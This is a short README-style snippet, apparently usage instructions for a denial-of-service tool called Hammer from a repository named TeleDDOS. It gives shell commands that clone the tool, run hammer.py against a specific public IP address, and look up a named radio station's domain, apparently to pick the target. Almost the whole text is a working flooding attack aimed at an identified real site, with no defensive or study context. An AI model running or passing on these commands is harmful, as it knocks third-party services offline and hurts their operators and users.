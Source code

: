 1. How to use Hammer [`Watch it`](http://www.youtube.com/watch?v=HVbRUhX2EPo) 

```

cd ~
git clone https://github.com/KingArmin/TeleDDOS
cd TeleDDOS

python3 hammer.py -s 136.243.145.232 

nslookup www.radioalghad.com

```
